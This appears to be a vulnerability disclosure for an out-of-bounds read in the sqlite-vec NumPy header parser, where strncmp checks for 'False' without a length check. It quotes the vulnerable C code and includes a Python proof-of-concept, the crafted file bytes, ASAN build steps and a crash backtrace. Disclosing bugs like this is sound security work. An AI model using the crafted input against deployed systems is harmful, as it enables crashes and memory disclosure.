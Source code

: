 version: 0.1.1

tag: OOBR, VectorDB, Parse

https://github.com/asg017/sqlite-vec


A vector search SQLite extension which has 3.6k stars. It can load numpy file.

```c
//https://github.com/asg017/sqlite-vec/blob/main/sqlite-vec.c#L2473C1-L2478C2
void npy_scanner_init(struct NpyScanner *scanner, const unsigned char *source,
                      int source_length) {
  scanner->start = (unsigned char *)source;
  scanner->end = (unsigned char *)source + source_length;
  scanner->ptr = (unsigned char *)source;
}

// https://github.com/asg017/sqlite-vec/blob/main/sqlite-vec.c#L2489C1-L2500C70
int parse_npy_header(sqlite3_vtab *pVTab, const unsigned char *header,
                     size_t headerLength,
                     enum VectorElementType *out_element_type,
                     int *fortran_order, size_t *numElements,
                     size_t *numDimensions) {

  struct NpyScanner scanner;
  struct NpyToken token;
  int rc;
  npy_scanner_init(&scanner, header, headerLength);

  if (npy_scanner_next(&scanner, &token) != VEC0_TOKEN_RESULT_SOME &&  //<-----[1]
    ...
```

The function `parse_npy_header` is used to parse the numpy file. It uses `scanner` to record the position.
`npy_scanner_next` continues to call `npy_token_next`.

```c
//https://github.com/asg017/sqlite-vec/blob/main/sqlite-vec.c#L2390
int npy_token_next(unsigned char *start, unsigned char *end,
                   struct NpyToken *out) {
  unsigned char *ptr = start;
  while (ptr < end) {
    unsigned char curr = *ptr;
    if (is_whitespace(curr)) {
      ptr++;
      continue;
    } else if (curr == '(') {
      ...
    } else if (curr == '\'') {
      ...
    } else if (curr == 'F' && 
               strncmp((char *)ptr, "False", strlen("False")) == 0) {  <-----[2]
      out->start = ptr;
      out->end = (ptr + (int)strlen("False"));
      ptr = out->end;
      out->token_type = NPY_TOKEN_TYPE_FALSE;
      return VEC0_TOKEN_RESULT_SOME;
    } else if (is_digit(curr)) {
        ...
    } else {
      return VEC0_TOKEN_RESULT_ERROR;
    }
  }
  return VEC0_TOKEN_RESULT_ERROR;
}
```

When curr is 'F', it determines at [2] whether the word here is "False", but does not judge the length of the readable data. If the data length is less than strlen("False") at this time, it will cause out-of-bounds data reading.

Poc code:

```python
import sqlite3

def execute_all(cursor, sql, args=None):
    if args is None:
        args = []
    results = cursor.execute(sql, args).fetchall()
    return list(map(lambda x: dict(x), results))

def connect(ext, path=":memory:", extra_entrypoint=None):
    db = sqlite3.connect(path)
    db.enable_load_extension(True)
    db.load_extension(ext)
    db.row_factory = sqlite3.Row
    return db

db = connect("./dist/vec0")

vec_npy_each_f = lambda *args: execute_all(
    db, "select * from vec_npy_each(?)", args
)

with open("./poc.npy", "rb") as f:
    data = f.read()
    print(vec_npy_each_f(data))
```

Poc data:
`00000000: 934e 554d 5059 0111 0100 46              .NUMPY....F`


Poc env:

We should compile with ASAN: `clang -fPIC -shared -Wall -Wextra -g -O0 -lm -lsqlite3 sqlite-vec.c -o dist/vec0.so`.  
Then, install python library sqlite-vec.  
Last, run `LD_PRELOAD=/usr/lib/llvm-14/lib/clang/14.0.0/lib/linux/libclang_rt.asan-x86_64.so python3 poc.py -detect_leaks=0`

Backtrace:
```
=================================================================
==829976==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x60200008a05b at pc 0x55f7de421d3d bp 0x7fff3b7230d0 sp 0x7fff3b722878
READ of size 2 at 0x60200008a05b thread T0
    #0 0x55f7de421d3c in strncmp (/sqlite-vec/poc+0x156d3c) (BuildId: cdf4cb5c526ff050498cc65aa238e9fb9d2938e1)
    #1 0x55f7de8e8209 in npy_token_next /sqlite-vec/sqlite-vec.c:2445:16
    #2 0x55f7de8e87de in npy_scanner_next /sqlite-vec/sqlite-vec.c:2481:12
    #3 0x55f7de8e8aba in parse_npy_header /sqlite-vec/sqlite-vec.c:2500:7
    #4 0x55f7de8eb3df in parse_npy_buffer /sqlite-vec/sqlite-vec.c:2808:12
    #5 0x55f7de91337d in vec_npy_eachFilter /sqlite-vec/sqlite-vec.c:2967:10
    #6 0x55f7de608c5b in sqlite3VdbeExec /sqlite-vec/vendor/sqlite3.c:101441:8
    #7 0x55f7de4fe5cd in sqlite3Step /sqlite-vec/vendor/sqlite3.c:91222:10
    #8 0x55f7de4ea0a4 in sqlite3_step /sqlite-vec/vendor/sqlite3.c:91283:16
```

